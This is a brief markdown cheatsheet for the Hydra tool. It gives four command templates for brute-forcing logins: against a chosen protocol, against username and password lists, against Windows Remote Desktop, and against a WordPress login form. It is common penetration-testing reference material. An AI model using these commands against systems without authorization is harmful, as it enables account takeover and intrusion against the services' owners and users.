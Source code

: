 # Hydra Mini Cheatsheet

| **Command**                                                                                                                                  | **Description**                                                                                                                                                    |
| -------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| hydra -P <wordlist> -v <ip> <protocol>                                                                                                       | Brute force against a protocol of your choice                                                                                                                      |
| hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>                                                                 | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>                                                                                      | Attack a Windows Remote Desktop with a password list.                                                                                                              |
| hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Craft a more specific request for Hydra to brute force.                                                                                                            |